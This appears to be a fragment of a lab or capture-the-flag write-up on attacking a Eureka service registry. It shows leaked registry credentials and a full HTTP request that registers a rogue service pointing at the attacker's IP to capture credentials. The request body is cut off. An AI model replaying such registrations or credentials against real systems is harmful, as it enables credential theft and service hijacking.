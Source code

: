 ```sh
spring.jpa.properties.hibernate.format_sql = true                                                
spring.session.store-type = jdbc
spring.jpa.hibernate.ddl-auto = none

http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka/

```
ssh and you are in.


Start fake server to take steal credentials

```http
POST /eureka/apps/USER-MANAGEMENT-SERVICE HTTP/1.1
Host: localhost:8761
Cache-Control: max-age=0
Authorization: Basic RXVyZWthU3J2cjowc2NhclBXRGlzVGhlQjNzdA==
sec-ch-ua: "Chromium";v="127", "Not)A;Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=8CA13157100A8BAE94458A2A5583D504
Content-Type: application/json
Content-Length: 1378
Connection: keep-alive

{
  "instance": {
    "instanceId": "host.docker.internal:webservice:8081",
    "app": "USER-MANAGEMENT-SERVICE",
    "appGroupName": null,
    "ipAddr": "10.10.16.94",
    "sid": "na",
    "homePageUrl": "http://host.docker.internal:8081/",
    "statusPageUrl": "http://host.docker.internal:8081/actuator/info",
    "healthCheckUrl": "http://host.docker.internal:8081/actuator/health",
    "secureHealthCheckUrl": null,
    "vipAddress": "USER-MANAGEMENT-SERVICE",
    "secureVipAddress": "USER-MANAGEMENT-SERVICE",
    "countryId": 1,
    "dataCenterInfo": {
      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
      "name": "MyOwn"
    },
    "hostName": "10.10.16.94",
    "status": "UP",
    "overriddenStatus": "UNKNOWN",
    "leaseInfo": {
      "renewalIntervalInSecs": 30,
      "durationInSecs": 90,
      "registrationTimestamp": 0,
      "lastRenewalTimestamp": 0,
      "evictionTimestamp": 0,
      "serviceUpTimestamp": 0
```